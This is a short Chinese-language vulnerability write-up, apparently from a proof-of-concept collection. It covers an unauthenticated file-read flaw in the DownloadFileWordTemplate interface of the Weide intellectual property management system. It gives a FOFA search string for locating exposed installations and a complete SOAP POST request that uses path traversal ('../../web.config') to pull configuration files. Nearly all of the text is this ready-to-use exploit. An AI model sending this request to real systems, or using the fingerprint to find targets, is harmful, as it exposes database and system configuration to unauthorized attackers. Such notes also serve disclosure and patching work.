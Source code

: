 # 唯徳知识产权管理系统DownloadFileWordTemplate接口存在文件读取漏洞

唯徳知识产权管理系统 DownloadFileWordTemplate 接口存在文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。

## fofa

```javascript
body="JSCOMM/language.js"
```

## poc

```javascript
POST /AutoUpdate/WSFM.asmx HTTP/1.1
Host: 
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://tempuri.org/DownloadFileWordTemplate"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <DownloadFileWordTemplate xmlns="http://tempuri.org/">
      <fileName>../../web.config</fileName>
    </DownloadFileWordTemplate>
  </soap:Body>
</soap:Envelope>
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409141639464.png)
